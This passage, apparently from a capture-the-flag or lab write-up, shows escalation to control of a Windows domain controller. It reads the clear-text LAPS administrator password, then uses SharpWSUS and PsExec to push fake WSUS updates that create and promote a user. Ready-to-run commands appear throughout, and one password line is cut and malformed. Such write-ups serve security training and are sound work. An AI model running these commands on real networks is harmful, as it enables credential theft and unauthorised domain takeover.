

We could try reading LAPS on SRV, as this user belonged to the server administrator group. According to the [documentation](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword?view=windowsserver2022-ps), we could use `Get-LapsADPassword` to retrieve the clear-text password of the local administrator on SRV.

```
Get-LapsADPassword -Identity SRV -AsPlainText
```



```
Administrator : 9@s8L to perform further attacks.

Since the SRV was the WSUS server from which updates were deployed and we were local administrators, we could deploy malicious updates to the DC, such as adding our own user to become part of the domain admins. First, we had to create a domain user.

```
cmd.exe /c 'SharpWSUS.exe create /payload:"C:\Users\Administrator\Documents\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \" net user destiny Password@123 /add \"" /title:"Up  
dating"'
```



Now, we approved the update.



Now, we added this to the local administrators group on the DC.

```
cmd.exe /c 'SharpWSUS.exe create /payload:"C:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \"net localgroup administrators destiny /add \"" /title:"Updating"'
```



We approved the update.



_We had to run the command multiple times and approve it to add the destiny users to the local admin group._



We were able to log in to the machine using the created user and evil-winrm to retrieve the other flags.
